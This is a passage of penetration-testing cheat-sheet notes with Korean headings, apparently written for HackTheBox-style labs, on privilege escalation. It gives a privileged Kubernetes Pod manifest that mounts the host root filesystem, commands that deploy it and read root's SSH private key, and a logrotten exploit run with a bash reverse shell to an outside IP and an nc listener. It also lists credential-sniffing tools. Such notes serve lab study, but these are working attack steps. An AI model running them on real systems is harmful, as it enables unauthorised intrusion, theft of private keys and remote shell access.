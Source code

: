 ```
#### Pod YAML
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

### Creating a new Pod
```
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```

### Extracting Root's SSH Key
```kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc```

<br/><br/>
# Logrotate
```sudo cat /var/lib/logrotate.status```<br/>
```ls /etc/logrotate.d/```<br/>
```cat /etc/logrotate.d/dpkg```

- [logrotten](https://github.com/whotwagner/logrotten)
```
$ git clone https://github.com/whotwagner/logrotten.git
$ cd logrotten/
$ scp logrotten.c <user>@10.129.204.41:~/.

$ gcc logrotten.c -o logrotten
$ echo 'bash -i >& /dev/tcp/10.10.15.221/9001 0>&1' > payload
$ cat /var/lib/logrotate.status
logrotate state -- version 2
"/home/htb-student/backups/access.log" 2023-6-14-14:1:27

$ nc -lnvp 9001    # 수신 대기
$ ./logrotten -p ./payload /home/htb-student/backups/access.log    # 익스플로잇 실행
$ echo "anything 91byte data" > /backups/access.log     # logrotate 트리거
```

<br/><br/>
# 기타 기술

## 수동 트래픽 캡처
- [net-creds](https://github.com/DanMcInerney/net-creds)
- [PCredz](https://github.com/lgandx/PCredz)

## 약한 NFS 권한
```
showmount -e 10.129.2.12